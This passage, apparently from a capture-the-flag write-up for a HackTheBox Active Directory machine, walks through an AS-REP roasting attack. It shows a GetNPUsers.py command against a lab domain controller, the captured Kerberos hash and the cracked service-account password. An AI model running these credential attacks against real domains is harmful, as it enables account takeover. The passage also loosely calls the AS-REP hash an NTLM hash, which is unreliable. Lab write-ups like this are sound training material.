 ### Vulnerabilities
***

We have much possitiblity to exploit Active-Directory Machine.

Reference - Active-Directory exploit toolbox : <https://github.com/infosecn1nja/AD-Attack-Defense/blob/master/README.md>

Here our target is kerberos service. This service is a computer-network authentication protocol that works on the basis of tickets to allow nodes communicating over a non-secure network to prove their identity to one another in a secure manner. We have several possible attacks : AS-Rep Roasting / Kerberoasting / Pass the key / Pass the ticket / Silver ticket / Golden ticket

We use AS-Rep Roasting attack to gain a foothold. This technique is simple, that allows to retrieve hash (NTLM) from users of a domain that do not require kerberos pre-authentication. The hash can then be cracked via JohnTheRipper for example. By default pre-authentication is enabled but can be disabled in the user properties via the Active Directory.

Reference - AS-Rep Roasting attack : <https://beta.hackndo.com/kerberos-asrep-roasting/>


## **<span style='color:#c0392b'>[2] Foothold - Get into the target </span>**
### AS-Rep Roasting Attack
***
Creation of the userfile with all users found above.

```terminal
$ nano /root/Documents/writeups/forest/userfile-asrep.txt
```

Get hash password of all users who do not require Kerberos preauthentication with GetNPUsers.py

Reference - GetNPUsers.py : <https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py>

```terminal
$ python GetNPUsers.py htb.local/ -usersfile /root/Documents/writeups/forest/userfile-asrep.txt -format hashcat -outputfile /root/Documents/writeups/forest/hashuser.txt -dc-ip 10.10.10.161
```
We result hash NTLM of user the user svc-alfresco : `$krb5asrep$23$svc-alfresco@HTB.LOCAL:4512c77868fc6faa05403bc6f5537168$3e1c84151e6c0d9e4119321f03f1f944f8779562b1736898de960760e358f1163024e8263e36e0b695bdfca3ce60e3e340b66bba1951a4b7525176323d1ac7d8b6a37608e59ca4432401c9b9e822f7e3f4b5c27f596571e70b89bf47a145d46c2d77a49a75532ff361e093c9db20c602b280d592caf932178c4c69633bebf546bdac13b558ff4c4a3b2c525f3c6d93f5d69e0cb75b2e191d1ef007c332de24a9a3a608fb6d390f9ad414ccee66c2a9bfc7baef91f0cd747606fdc121c0c4e77065a5c10289e85e8b90b0251215decbf8bf4f02bfa383b44c974a5af7aedba2f4d71fc38527b6`

### Cracking Password
***
We crack the password of the user svc-alfresco : `s3rvice`

Reference - johntheripper tool : <https://bytesoverbombs.io/cracking-everything-with-john-the-ripper-d434f0f6dc1c>
